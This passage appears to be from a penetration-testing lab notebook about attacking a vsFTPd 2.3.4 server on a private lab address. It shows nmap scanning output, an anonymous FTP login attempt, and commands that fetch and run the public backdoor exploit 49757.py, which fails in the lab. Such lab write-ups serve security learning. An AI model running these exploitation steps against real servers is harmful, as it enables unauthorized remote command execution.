 ## Targeting

### [vsFTPd](../3-metasploit/ftpd-msf-exp.md)

```bash
nmap -sV -sC -p 21 10.2.20.205
```

```bash
21/tcp open  ftp     vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.24.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV IP 172.17.0.2 is not the same as 10.2.20.205

```

- Try `anonymous`:`anonymous` with FTP

```bash
ftp 10.2.20.205

# With anonymous access no files can be accessed
```

![](.gitbook/assets/image-20230424142914147.png)

- **Exploit vsFTPd**

```bash
searchsploit vsftpd
	vsftpd 2.3.4 - Backdoor Command Execution | unix/remote/49757.py
searchsploit -m 49757
vim 49757.py
chmod +x 49757.py
python3 49757.py 10.2.20.205
# [Errno 111] Connection refused
# Backdoor on port 6200 was removed by the administrator

# Description of the unix/ftp/vsftpd_234_backdoor Metasploit module:
#  This module exploits a malicious backdoor that was added to the 
#  VSFTPD download archive. This backdoor was introduced into the 
#  vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
#  according to the most recent information available. This backdoor 
#  was removed on July 3rd 2011.
```